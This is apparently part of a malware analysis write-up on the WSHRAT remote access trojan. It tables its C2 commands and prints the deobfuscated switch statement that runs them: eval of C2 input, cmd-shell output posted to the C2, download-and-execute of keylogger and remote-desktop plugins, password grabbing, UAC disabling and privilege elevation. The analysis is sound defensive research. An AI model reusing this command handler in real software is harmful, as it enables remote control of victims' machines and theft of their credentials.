


## Part 2

Part two can be found here:
https://github.com/VenzoV/MalwareAnalysisReports/blob/main/WSHRAT/WSHRATpt2.md

## C2 commands


From part two we took a look at the malware making contact with the C2 to receive instructions. The response is parsed, and split on the pipe character.
There are many different commands that the malware can run.
This is all done through a switch statement.
Also, worth noting that the the code sends feedback and error messages to the C2 such as failed installations or failed to recover password.


| Commands | Description |
| ------------- | ------------- |
| disconnect  | Calls wscript to quit process  |
| reboot  | calls %comspec% /c shutdown /r /t /0 /f to reboot the host  |
| shutdown  | calls %comspec% /c shutdown /s /t /0 /f to shutdown the host  |
| execute  | calls eval on the second parameter returned from the first post request  |
| install-sdk  | posts "moz-sdk" to C2 with the post() function, fetches "wshsdk.zip" and unzips it to appdata/wshsdk folder  |
| remove-sdk  | removes the "wshsdk.zip" file and folder created  |
| get-pass  | Get password from: IE, Chrome, Mozilla ,foxmail |
| get-pass-offline  | Get password from: IE, Chrome, Mozilla ,foxmail. Fetches binary for mailpass view, nirsoft tool for password recovery for outlook. Binary is hardcoded in base64 within the code itself
| update  | Fetches another script from the C2 and tries to launch it closing the current one.
| uninstall  | Basically removes registry keys for autorun and deletes the script from all drives
| up-n-exec  |  Used to fetch another file from the C2 and runs executes 
| bring-log  |   Exfiltrates to c2 log files generated from other functions. Example: "wshlogs\recovered_password_email.log" file likely created by the binary "mailpass view". Format: appdata+"wshlogs\"+filename. Where filename can be decided by the c2.
| down-n-exec | Seems similar to up-n-exec, but need to check more. URL and name are passed to the function a get request is made to fetch a file and save with the name supplied in the appdata folder and then runs it.
| filemanager | Calls function that takes a URL, the string "fm-plugin.exe". The function is called "servicestarter". A base64 payload is fetched from the C2, and is used in another call payloadlauncher to save it in the registry key. Overall the objective seems to be to launch yet again another harcoded binary.
| rdp | Calls keyloggerstarter function passing "rdp" as argument. The function fetches a binary and launches it with payloadluncher function. Binary is named "rd-plugin.exe"
| h-browser | Calls keyloggerstarter function passing "hbrowser" as argument. The function fetches a binary and launches it with payloadluncher function. Binary is named "hb-plugin.exe"
| rev-proxy | Fetches binary naming it "rprox.exe"
| exit-proxy | Kills the process associated with the binary rprox.exe 
|exit-hrdp | Kills process associated with hrdp.exe
| keylogger | Calls keyloggerstarter function passing binary name "kl-plugin.exe"
| offline-keylogger | Same as the above the only change is in one of the arguements passed a "1" instead of "0"
| browse-logs | Uses the Post() function. Used to gather all files saved under appdata\wshlogs
| cmd-shell |  Runs a supplied cmd from C2 and saves results to appdata\out.txt. The file is read and saved in a local var that is returned and sent via the Post() function to C2. Before sending the file is deleted.
| get-processes | Enumerates processes on host, and sends results back to C2.
| disable-uac | Attempts to disable UAC as name suggests. Uses same function already observed in part 2. disableSecurity()
| check-eligible | Filename is supplied by C2 and checks if already present on the host. sends a message back to C2 with the results.
| rev-rdp | Kills process with name supplied by C2. Fetches some binary from C2, if the file is already on the host it deletes it and writes a fresh one. Finally in runs a cmd using filename+host+port+argument. Likely used to establish a reveres rdp session from host to C2.
| uvnc| Starts VNC session. Binary is hard coded into the file.
| force-eligible | Checks if process has elevated privileges. Checks a folder name supplied by C2 already exists, if it does it runs  a cmd supplied by c2. 
| elevate | Elevates privileges using running script with "elevated" "runas" "1" arguments. 
|if-elevate | checks if the process is running with elevate privileges or not 
| kill-process | Used to end a process, PID is supplied as argument.
| sleep | Runs sleep, time is supplied by C2


## Switch statement 

Following snippet containing the cases mentioned above.

```vbscript
switch(cmd[0]){
case "disconnect":
WScript["quit"]();
break;
case "reboot":
Wscript_Shell["run"]("%comspec% /c shutdown /r /t 0 /f", 0, true);
break;
case "shutdown":
Wscript_Shell["run"]("%comspec% /c shutdown /s /t 0 /f", 0, true);
break;
case "excecute":
param = cmd[1];
eval(param);
break;
case "install-sdk":
if (FileSystemObject["fileExists"](Filename_python_exe)){
updatek_DrmsoSWlus("SDK+Already+Installed");
}else{
installsdk();
}
break;
case "remove-sdk":
if(FileSystemObject["fileExists"](appdata$ + "wshsdk.zip")){
FileSystemObject["deleteFile"](appdata$ + "wshsdk.zip");
}
if (FileSystemObject["fileExists"](Filename_python_exe)){
FileSystemObject["deleteFolder"](temp_wshsdk);
updatek_DrmsoSWlus("SDK+Uninstalled");
}
break;
case "get-pass":
passgrabber(cmd[1], "cmdc.exe", cmd[2]);
break;
case "get-pass-offline":
if (FileSystemObject["fileExists"](Filename_python_exe)){
passgrabber(cmd[3], "cmdc.exe", "ie");
passgrabber("null", "cmdc.exe", "chrome");
passgrabber("null", "cmdc.exe", "mozilla");
passgrabber2(cmd[1], "cmdc.exe", cmd[2]);
}
else{
updatek_DrmsoSWlus("Installing+SDK");
var k_DrmsoSWl = installsdk();
if(k_DrmsoSWl == true){
passgrabber(cmd[3], "cmdc.exe", "ie");
passgrabber("null", "cmdc.exe", "chrome");
passgrabber("null", "cmdc.exe", "mozilla");
passgrabber2(cmd[1], "cmdc.exe", cmd[2]);
}
else{
var vzfRY_dGMw = Wscript_Shell["ExpandEnvironmentStrings"]("%computername%") + "/" + Wscript_Shell["ExpandEnvironmentStrings"]("%username%");
post("show-toast", "Unable to automatically recover password for " + vzfRY_dGMw + " as the Password Recovery SDK cannot be automatically installed. You can try again manually.");
}
}
break;
case "update":
param = updaterF(cmd[1]);
if(param != ""){
oneonce["close"]();
oneonce = FileSystemObject["openTextFile"](appdata$ + Current_Script_Name ,2, false);
oneonce.write(param);
oneonce["close"]();
Wscript_Shell["run"]("wscript.exe //B "" + appdata$ + Current_Script_Name + """);
WScript["quit"]();
}else{
updatek_DrmsoSWlus("Update+Failed");
break;
}
case "uninstall":
uninstall();
break;
case "up-n-exec":
download(cmd[1],cmd[2]);
break;
case "bring-log":
upload(appdata$ + "wshlogs\" + cmd[1], "take-log");
break;
case "down-n-exec":
sitedownloader(cmd[1],cmd[2]);
break;
case  "filemanager":
servicestarter(cmd[1], "fm-plugin.exe", _ul$ylWBlnormation());
break;
case  "rdp":
keyloggerstarter(cmd[1], "rd-plugin.exe", _ul$ylWBlnormation(), "", "rdp");
break;
case  "h-browser":
keyloggerstarter("", "hb-plugin.exe", _ul$ylWBlnormation(), "", "hbrowser");
break;
case  "rev-proxy":
reverseproxy("rprox.exe", cmd[1]);
break;
case  "exit-proxy":
Wscript_Shell["run"]("%comspec% /c taskkill /F /IM rprox.exe", 0, true);
break;
case  "exit-hrdp":
Wscript_Shell["run"]("%comspec% /c taskkill /F /IM hrdp.exe", 0, true);
break;
case  "keylogger":
keyloggerstarter(cmd[1], "kl-plugin.exe", _ul$ylWBlnormation(), 0, "keylogger");
break;
case  "offline-keylogger":
keyloggerstarter(cmd[1], "kl-plugin.exe", _ul$ylWBlnormation(), 1, "keylogger");
break;
case  "browse-logs":
post("is-logs", enumfaf(appdata$ + "wshlogs"));
break;
case  "cmd-shell":
param = cmd[1];
post("is-cmd-shell",cmdshell(param));
break;
case  "get-processes":
post("is-processes", enumprocess());
break;
case  "disable-uac":
disableSecurity();
updatek_DrmsoSWlus("UAC+Disabled+(Reboot+Required)");
break;
case  "check-eligible":
if(FileSystemObject["fileExists"](cmd[1])){
updatek_DrmsoSWlus("Is+Eligible");
}else{
updatek_DrmsoSWlus("Not+Eligible");
}
break;
case  "rev-rdp":
reverserdp(cmd[3] + ".exe", cmd[1], cmd[2]);
break;
case  "uvnc":
startUvnc(cmd[1], cmd[2]);
break;
case  "force-eligible":
if(WScript["Arguments"]["Named"]["Exists"]("elevated") == true){
if(FileSystemObject["folderExists"](cmd[1])){
Wscript_Shell["run"]("%comspec% /c " + cmd[2], 0, true);
updatek_DrmsoSWlus("SUCCESS");
}else{
updatek_DrmsoSWlus("Component+Missing");
}
}
else{
updatek_DrmsoSWlus("Elevation+Required");
}
break;
case  "elevate":
if(WScript["Arguments"]["Named"]["Exists"]("elevated") == false){
try{
oneonce["close"]();
oneonce = null;
WScript["CreateObject"]("Shell.Application")["ShellExecute"]("wscript.exe", " //B "" + WScript["ScriptFullName"] + "" /elevated", "", "runas", 1);
updatek_DrmsoSWlus("Client+Elevated");
}catch(nn){
}
WScript["quit"]();
}
else{
updatek_DrmsoSWlus("Client+Elevated");
}
break;
case  "if-elevate":
if(WScript["Arguments"]["Named"]["Exists"]("elevated") == false){
updatek_DrmsoSWlus("Client+Not+Elevated");
}
else{
updatek_DrmsoSWlus("Client+Elevated");
}
break;
case  "kill-process":
exitprocess(cmd[1]);
break;
case  "sleep":
param = cmd[1];
maybe_port_5000 = eval(param);
break;
}
}catch(er){}
WScript["sleep"](maybe_port_5000);
}
 ```


## Mail Pass View
Below the zipped & base64 encoded binary.


Virus Total results:
* https://www.virustotal.com/gui/file/400b411a9bffd687c5e74f51d43b7dc92cdb8d5ca9f674456b75a5d37587d342/detection
* https://www.nirsoft.net/utils/mailpv.html




## Payloadlauncher binary
* https://www.virustotal.com/gui/file/d24396bab076f62921a8be8f54e5255a641b646ff47aa72292bcf40d04aec25e

